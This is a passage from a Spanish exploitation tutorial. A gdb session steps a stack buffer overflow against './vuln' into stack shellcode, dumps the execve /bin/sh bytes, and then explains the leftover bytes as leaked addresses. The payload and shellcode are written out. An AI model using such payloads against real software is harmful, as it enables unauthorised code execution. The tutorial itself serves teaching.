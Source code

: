 Una vez hecho esto se podrá proceder a examinar el stack del proceso víctima:

$ gdb -q ./vuln
Reading symbols from ./vuln...(no debugging symbols found)...done.
(gdb) set exec-wrapper ./x
(gdb) br \*imprimir +26
Breakpoint 1 at 0x8048425
(gdb) run
Starting program: /home/arget/vuln 
Usando direccion: \[ 0xffffdfd8 \]
Payload: 41414141414141414141414141414141414141414141d8dfffff

Breakpoint 1, 0x08048425 in imprimir ()  
(gdb) display /i $pc  
1: x/i $pc  
\=> 0x8048425 <imprimir+26>: ret  
(gdb) nexti  
0xffffdfd8 in ?? ()  
1: x/i $pc  
\=> 0xffffdfd8: jae 0xffffe042  
(gdb) x $eip  
0xffffdfd8: 0x2f686873  
(gdb)  
0xffffdfdc: 0x896e6962  
(gdb)  
0xffffdfe0: 0x895350e3  
(gdb)  
0xffffdfe4: 0xb0d231e1  
(gdb)  
0xffffdfe8: 0x2b80cd0b  
(gdb)  
0xffffdfec: 0x1affffd3  
(gdb)  
0xffffdff0: 0x762f2e00  
(gdb)  
0xffffdff4: 0x006e6c75  
(gdb)  
0xffffdff8: 0x00000000  
(gdb)  
0xffffdffc: 0x00000000  
(gdb)  
0xffffe000: Cannot access memory at address 0xffffe000 // Es el fin del mundo, claro (llamado _kernel land_)  
(gdb) x/s 0xffffdff0+1  
0xffffdff1: «./vuln»

Vemos justo tras el `cd 80` (opcodes para `int 0x80`) final de nuestro shellcode, una serie de datos, en concreto vemos los siguientes bytes (en hex, por supuesto): `2b d3 ff ff 1a 00`, y a continuación, la cadena «./vuln». Esos datos, teniendo en cuenta que esto es little endian (amigo), son una dirección y otra a medias, en concreto `0xffffd32b` y `0x????001a` (la segunda, supongo que es una dirección ya que debe encontrarse en el stack de la función `imprimir()`, y ahí no hay ninguna cadena que contenga `0x1a`, que es adeḿás no imprimible, luego es de esperar que sea el final de una dirección). Estas dos direcciones se corresponden con el stack del exploit. Que esto sirva como una introducción a los _memory leaks_.  
Se puede ver, por el tipo de direcciones filtradas, que el exploit fue compilado como 32 bits, simplemente la costumbre me llevó a compilarlo con la opción `-m32`, pero podemos ver que el error ocurre igual si es compilado para 64 bits.
